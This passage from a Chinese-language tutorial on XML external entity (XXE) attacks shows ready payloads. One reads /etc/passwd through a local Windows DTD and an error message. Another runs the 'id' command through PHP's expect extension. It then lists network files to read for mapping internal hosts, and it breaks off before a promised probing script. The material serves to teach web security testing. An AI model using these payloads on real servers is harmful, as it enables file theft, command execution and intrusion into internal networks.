 Windows

```php
<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
<?xml version="1.0" ?>

<!ENTITY % condition 'aaa)>
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    <!ELEMENT aa (bb'>
%local_dtd;
]>
<message>any text</message>
```

1.4、命令执行
--------

目标环境的特殊配置导致XML与某些命令操作关联，从而造成命令执行的可能性。如果目标内部的PHP环境中安装了expect扩展，并且该扩展被加载到了处理XML的内部应用程序上，就可以利用expect来执行系统命令。

Expect扩展是一个用于自动化交互的套件，它可以在执行命令和程序时，模拟用户输入指定的字符串，以实现交互通信。如果能够成功利用这个扩展，就可以通过构造恶意的XML数据，触发命令执行，进而执行任意系统命令。

```php
<?xml version="1.0" encoding="utf-8"?>

<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-8695b595760bca72a81bd9f4440d054029082659.png)

1.5、内网主机探测
----------

当我们成功利用了XXE漏洞，下一步就是尝试读取服务器的网络配置文件，以获取内网的相关信息。/etc/network/interfaces、/proc/net/arp和/etc/hosts都是可能包含有用信息的文件。

```php
/etc/network/interfaces：这个文件通常包含服务器的网络接口配置信息，您可以从中找到内网的IP地址和网段。

/proc/net/arp：这个文件保存了地址解析协议（ARP）的缓存表，您可以从中获取到与内网中其他主机进行通信的主机的MAC地址和IP地址。

/etc/hosts：这个文件是Linux系统上的主机文件，用于IP地址和域名的快速解析。您可以查看文件中是否有内网主机的映射关系。
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-4a9fac6f473314e56fff9d235f75ee95289bff9d.png)  
**下面是一个探测脚本的实例：**
